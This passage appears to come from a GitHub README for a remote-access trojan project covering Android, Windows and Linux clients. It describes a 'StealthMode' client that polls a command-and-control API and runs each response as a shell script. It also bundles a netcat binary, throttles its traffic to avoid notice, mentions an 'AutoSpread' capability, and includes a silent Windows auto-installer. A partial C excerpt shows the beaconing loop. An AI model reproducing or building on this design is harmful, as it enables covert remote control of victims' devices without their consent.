 	2. ##### __StealthMode__:

		    + __runFrame.c__ : This is a simple C program that sends HTTP requests every few seconds to the API through a socket, saves the response to a shell file then makes a system call to run it.

		    + __toolbox.c__ : This is a standalone netcat

	The resulting binaries are statically linked to ensure stability and path independance. The importance of using `runFrame` instead of just running a JS loop in **index.html** doesn't only stop at the Battery issues explained previously but also for performance reasons. The app with this mode uses much less resources and is more reliable.

	The frequency of the requests is by default set at 5s, but it can be manipulated by the API (the server automatically makes `runFrame` slow down when there are no scheduled cmds by giving it `sleep 30` as a response), therefore, when the admin is controling a device or using it as a proxy a number of tasks will be schedules and the delay between each won't be significant, otherwise we don't want the client to keep sending frequent requests which would make it noticeable and resource consuming.

	> :warning: the API recognize whether the requests are coming from this mode from the __User-Agent: JustKidding__, so the responses to `/checkupdate.js` be compatible. Also the HTTP requests are only made while the phone is connected to **Wlan**, and there are two main reasons for that, the first is data mobile consumption which the OS will stop, the second is the autonomous spread capability (#AutoSpread)


	```C
	// void bzero(void *s, size_t n);
	#define bzero(s, n) memset((s), 0, (n))
	...
	strcat(reque, "&token=updated HTTP/1.1\r\nHost: {API_Host}\r\nUser-Agent: JustKidding\r\nConnection: close\r\n\r\n");
	char *routing = "ip route | grep wlan";
	...
	while (1){
		routingSTAT = system(routing);
		// grep exit status will only equal 0 if a wlan interface was listed
		if (routingSTAT==0){
			fd = socket_connect(argv[1], atoi(argv[2])); 
			write(fd, reque, strlen(reque));
			bzero(buffer, BUFFER_SIZE);
			...
			}
	```



3. [Client/Trojan (__Windows/Linux__)](/Clients): Unlike in the case of android here a simple python script will do. In addition, Windows version is equiped with a VBA script and SFX to make a silent autoinstaller, the trojan will be just a standalone executable that runs in the background after extracting its content inside %TEMP%.


